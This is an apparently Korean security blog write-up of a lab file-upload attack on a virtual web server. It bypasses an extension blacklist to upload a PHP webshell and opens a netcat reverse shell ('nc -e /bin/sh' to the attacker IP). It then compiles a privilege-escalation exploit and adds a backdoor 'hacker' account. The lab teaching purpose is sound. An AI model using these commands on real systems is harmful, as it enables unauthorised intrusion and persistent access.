 ```yaml
---
title: "파일업로드 공격 실습(File Upload Attack)"
categories:
  - Web
tags:
  - Web hacking
  - File upload
  - netcat
  - webshell
comments: true
---
```


파일 업로드 공격 취약점을 이용하여 서버의 root 권한을 획득하는 방법에 대해 기술한다.

> 1. 공격대상 서버 가상머신 환경설정
> 2. 파일 업로드 취약점 확인
> 3. Webshell 업로드 및 실행
> 4. nc 를 이용한 reverse connection
> 5. exploit code 재컴파일, 실행을 통한 권한상승


# 1. 공격대상 서버 가상머신 환경설정

VMware [Edit]-[Virtual Network Editor]-[VMnet8] 에서 다음과 같이 설정한다.
- Subnet IP : 10.10.10.0
- DHCP Settings - starting ip address : 10.10.10.5
- DHCP Settings - starting ip address : 10.10.10.254

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/1.jpg"></p></center>

VMware NAT 방식에서 공격대상과 공격자 IP는 다음과 같다.
- 공격대상 서버의 IP : 10.10.10.10
- 공격자 PC 의 IP : 10.10.10.1


# 2. 파일 업로드 취약점 확인

파일 업로드 공격은 다음의 3가지를 충족해야 한다.
- 공격자가 원하는 파일이 업로드 가능해야 한다.(확장자 우회 등을 통해)
- 업로드된 파일의 경로(서버 내 경로)를 알아야 한다.
- 업로드된 파일의 실행권한

> 2.1. 공격대상 웹 게시판에 sher.jpg 파일 업로드

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/2.1.png"></p></center>

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/2.1.2.png"></p></center>

> 2.2. [이미지 우클릭]-[이미지 주소 복사] 를 통해 업로드된 파일의 경로를 파악한다.

파일 업로드 경로 : http://10.10.10.10/wizboard/table/root/board04/updir/sher.jpg

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/2.2.png"></p></center>


# 3. Webshell 업로드 및 실행

> 3.1. shell.php 업로드를 하면 다음과 같이 블랙리스트 기반 파일 확장자 필터링이 있는 것을 알 수 있다.


<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.1.png"></p></center>


> 3.2. shell.php.kr 로 파일명을 변경한 후 업로드 재시도(파일 필터링 우회기법) : 성공

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.2.png"></p></center>

> 3.3. Webshell 실행

<2.2. 파일 업로드 경로> 에서 알아낸 파일 업로드 경로를 참고하여 다음의 url 을 통해 webshell 을 실행시킨다.

http://10.10.10.10/wizboard/table/root/board04/updir/shell.php.kr

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.3.png"></p></center>

> 3.4. 계정 확인 (명령어 : id)

nobody 계정은 가장 권한이 낮은 계정 중 하나로, apache web server process를 구동시키기 위한 계정이다.

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.4.png"></p></center>

> 3.5. test 파일 생성 후 확인(명령어 : touch test, ls -al)

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.5.png"></p></center>

> 3.6. test 파일 권한 확인(명령어 : stat test)

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.6.png"></p></center>

> 3.7. exploit 코드 업로드 후, 실행을 통한 권한상승 시도

3.7.1. 게시판을 통한 exp1.c 업로드

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.7.1.png"></p></center>

3.7.2. 컴파일 : gcc -o exp exp1.c

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.7.2.png"></p></center>

3.7.3. 실행 : ./exp

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.7.3.png"></p></center>

3.7.4. 권한 상승 실패로 여전히 nobody 계정이다.(nobody 는 

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.7.4.png"></p></center>


<div class="notice">
※ Expolit code 를 실행하였음에도, 권한상승에 실패한 이유?

웹쉘이란?  사실은 쉘이 아니다. 리눅스 쉘에 명령어를 전달하고 출력결과를 전달해주는 것으로 리눅스에서 쉘은 /bin/bash, /bin/sh 등이다. 실제 shell 을 통해 exploit 코드를 실행하여야 한다.
</div>


# 4. nc 를 이용한 reverse connection

> 4.1. 공격 대상 PC 에서 nc 프로그램을 연결대기 상태로 만든다.

cmd 창을 2개 생성 후 다음과 같이 명령어를 입력한다.<br>
`cmd_1` : nc -l -p 31337, 31337 포트를 이용한 프로그램 실행 중 상태 (31337 포트는 임의로 선택한 것이다.)<br>
`cmd_2` : netstat -an, 31337 포트가 리스팅 상태인지(프로그램이 제대로 실행되었는지) 확인

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/4.1.jpg"></p></center>

> 4.2. 웹쉘을 통해 서버 -> 공격대상 PC 연결시킨다.

`웹쉘` : nc -e /bin/sh 10.10.10.1 31337 (이때, 10.10.10.1 은 공격자의 IP 주소이다.)<br>
`cmd_1` : id (연결확인)

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/4.2.png"></p></center>

# 5. exploit code 재컴파일, 실행을 통한 권한상승

> 5.1. 이전에 컴파일 된, exp 를 삭제하고, nc(/bin/sh) 를 통해 exploit 코드를 재컴파일 후 실행시킨다.

<div class="notice">
※ root 권한의 계정으로 컴파일 된 실행파일을 만들기 위함
</div>

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/5.1.jpg"></p></center>

> 5.2. hacker 계정 추가

```
useradd hacker<br>
passwd hacker<br>
cat /etc/passwd (hacker 계정 추가 확인)
```

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/5.2.png"></p></center>

<br>

{% if page.comments %}

<div id="disqus_thread"></div>
<script>

/**
*  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
*  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables*/
/*
var disqus_config = function () {
this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
};
*/
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://https-c0msherl0ck-github-io.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
                            
{% endif %}
